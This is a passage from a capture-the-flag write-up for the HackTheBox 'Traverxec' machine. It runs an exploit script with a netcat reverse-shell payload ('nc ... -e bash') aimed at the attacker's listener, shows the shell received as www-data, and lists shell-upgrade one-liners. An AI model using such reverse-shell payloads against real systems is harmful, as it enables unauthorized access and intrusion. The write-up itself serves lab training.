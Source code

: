 


## Initial Shell 

Its a debian system, so we can use netcat to get a **reverse shell**: 

```bash
dumbland () hgfs/hackthebox/traverxec :: python 47837.py 10.10.10.165 80 'nc 10.10.14.35 4242 -e bash'                              _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/
```

In other terminal we get our shell:

```bash
dumbland () hgfs/hackthebox/traverxec :: nc -nlvp 4242
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:60202.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Upgrade  Shell 101

### rules of dumb

- always use rlwrrap   

  - ```bash
    alias nc='rlwrap nc
    ```

- python upgrade

  - ```bash
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- script update

  - ```bash
    script /dev/null
    ```
